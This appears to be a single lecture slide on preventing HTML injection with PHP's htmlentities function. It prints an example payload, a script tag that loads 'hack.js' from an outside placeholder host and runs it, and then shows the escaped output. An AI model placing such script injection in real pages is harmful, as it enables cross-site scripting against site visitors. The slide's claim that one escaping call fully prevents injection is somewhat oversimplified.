

# Preventing HTML Injection
Preventing this is as simple as calling the htmlentities function. For example, consider this HTML:

<script src='http://x.com/hack.js'>
</script><script>hack();</script>

This code loads in a JavaScript program and then executes malicious functions

But if it is first passed through htmlentities, it will be turned into the following totally harmless string:

&lt;script src='http://x.com/hack.js'&gt; &lt;/script&gt;
&lt;script&gt;hack();&lt;/script&gt;